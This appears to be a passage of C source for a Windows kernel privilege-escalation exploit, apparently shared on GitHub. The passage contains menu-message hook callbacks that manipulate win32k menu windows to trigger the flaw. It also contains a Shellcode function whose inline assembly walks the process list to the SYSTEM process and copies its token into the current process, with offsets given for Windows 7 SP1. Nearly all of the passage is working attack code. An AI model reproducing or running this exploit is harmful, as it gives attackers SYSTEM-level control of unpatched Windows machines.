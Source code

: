 	if (cwp->message == WM_NCCREATE && bEnterEvent && hwndMenuList[release] && !hwndMenuList[release+1])
	{
		printf("Sending the MN_CANCELMENUS message\n");
		SendMessage(hwndMenuList[release], MN_CANCELMENUS, 0, 0);
		bEnterEvent = FALSE;
	}
	return CallNextHookEx(0, code, wParam, lParam);
}


static
VOID
CALLBACK
xxWindowEventProc(
	HWINEVENTHOOK hWinEventHook,
	DWORD         event,
	HWND          hwnd,
	LONG          idObject,
	LONG          idChild,
	DWORD         idEventThread,
	DWORD         dwmsEventTime
)
{
	UNREFERENCED_PARAMETER(hWinEventHook);
	UNREFERENCED_PARAMETER(event);
	UNREFERENCED_PARAMETER(idObject);
	UNREFERENCED_PARAMETER(idChild);
	UNREFERENCED_PARAMETER(idEventThread);
	UNREFERENCED_PARAMETER(dwmsEventTime);

	bEnterEvent = TRUE;
	if (iCount < ARRAYSIZE(hwndMenuList))
	{
		hwndMenuList[iCount] = hwnd;
		iCount++;
	}
	SendMessageW(hwnd, MN_SELECTITEM, 0, 0);
	SendMessageW(hwnd, MN_SELECTFIRSTVALIDITEM, 0, 0);
	PostMessageW(hwnd, MN_OPENHIERARCHY, 0, 0);
}

__declspec(noinline) int Shellcode()
{
	__asm {
		xor eax, eax // Set EAX to 0.
		mov eax, DWORD PTR fs : [eax + 0x124] // Get nt!_KPCR.PcrbData.
											 // _KTHREAD is located at FS:[0x124]
		mov eax, [eax + 0x50] // Get nt!_KTHREAD.ApcState.Process
		mov ecx, eax // Copy current process _EPROCESS structure
		mov edx, 0x4 // Windows 7 SP1 SYSTEM process PID = 0x4
		SearchSystemPID:
			mov eax, [eax + 0B8h] // Get nt!_EPROCESS.ActiveProcessLinks.Flink
			sub eax, 0B8h
			cmp[eax + 0B4h], edx // Get nt!_EPROCESS.UniqueProcessId
			jne SearchSystemPID
			mov edx, [eax + 0xF8] // Get SYSTEM process nt!_EPROCESS.Token
			mov[ecx + 0xF8], edx // Assign SYSTEM process token.
	}
}
